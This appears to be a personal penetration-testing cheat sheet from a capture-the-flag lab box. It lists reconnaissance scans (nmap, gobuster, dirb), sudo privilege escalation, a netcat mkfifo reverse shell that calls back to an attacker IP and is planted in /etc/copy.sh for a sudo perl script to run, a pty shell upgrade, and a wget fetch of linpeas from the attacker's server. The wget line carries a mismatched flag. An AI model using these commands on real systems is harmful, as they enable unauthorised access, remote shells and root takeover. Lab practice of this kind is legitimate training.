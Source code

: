 # nmap scan
sudo nmap -sC -sV -oN nmap.md 10.10.179.53 -v


# Gobuster Scan
sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.115.76/ -x php,py,js,css,

# dirbuster scan
sudo dirb http://10.10.146.156/ -R 


# Cat all find read
cat *



# To Check Sudo Permissions
sudo -l


# prev esc linux bash shell
sudo bash


# perl write to copy.sh [reverse shell]
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.0.189 5554 >/tmp/f' >/etc/copy.sh

sudo /usr/bin/perl /home/itguy/backup.pl



# python shell - stable bash shell

python3 -c  'import pty;pty.spawn("/bin/bash")'



# run python http server

sudo python -m SimpleHTTPServer 80

sudo wget http://10.8.0.189/linpeas.sh -OutFile /tmp/linpeas.sh
